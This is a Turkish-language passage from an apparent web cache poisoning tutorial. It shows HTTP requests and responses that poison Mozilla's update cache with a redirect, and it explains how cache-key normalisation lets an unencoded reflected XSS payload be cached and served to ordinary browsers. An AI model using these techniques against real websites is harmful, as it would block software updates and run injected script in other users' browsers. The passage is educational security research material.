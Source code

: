 ```bash
HTTP/1.1 301 Found
Location: https://www.mozilla.org/
```

Ancak, nginx'in URL-çözümleme işlemi sayesinde `?` ve `%3` aynı cache key değerine tekabül edeceği için bu istek, meşru bir güncelleme isteği ile aynı cache key'e sahip olacaktır. Bu noktadan itibaren, Firefox global olarak güncelleme yapamayacaktır:

```bash
GET /?product=firefox-73.0.1-complete&os=osx&lang=en-GB&force=1 HTTP/1.1
Host: download.mozilla.org
```

```bash
HTTP/1.1 301 Found
Location: https://www.mozilla.org/
```

## Önbellek Sihirbazlıkları

### Encoded XSS

Burp repeater sekmesinde aşağıdaki gibi bir istek gönderdiğinizde reflected XSS elde edilebildiğini düşündüğünüz bir durum olduğunu varsayalım:

```bash
GET /?x="/><script>alert(1)</script> HTTP/1.1
Host: example.com
```

```bash
HTTP/1.1 200 OK
...
<a href="/?x="/><script>alert(1)</script>
```

Fakat bu açığı standart web tarayıcıları üzerinde uygulayamazsınız. Çünkü modern tarayıcılar, sunucuya istekte bulunmadan önce anahtar karakterleri URL olarak kodlar ve sunucu bunların kodunu çözmez. Yani aslında sunucu tarafına aşağıdaki gibi bir istek gönderilir:

```bash
GET /?x=%22/%3E%3Cscript%3Ealert(1)%3C/script%3E HTTP/1.1
Host: example.com
```

Sunucu da URL decode uygulamadan bunu yanıta yansıtır:

```bash
HTTP/1.1 200 OK
...
<a href="/?x=%22/%3E%3Cscript%3Ealert(1)%3C/script%3E
```

Benzer şekilde aslında yalnızca path yolundaki karakterleri değil, query yani sorgu dizesindeki temel karakteri de tarayıcılar URL olarak kodlayıp sunucuya iletiyor.

Fakat önbellek anahtarlarının normalize edilmesi sayesinde daha önceki örnekte de gördüğümüz şekilde aslında URL encode ve standart karakterler de aynı önbellek anahtarına dönüştürülüyor. Bu sayede biz öncelikle burp üzerinden URL encode olmayan isteği gönderip bunu önbelleğe almayı başarabilirsek, URL encode biçimindeki standart tarayıcılardan gelen isteklere de bu önbellekten yanıt döndürülüyor olacak.
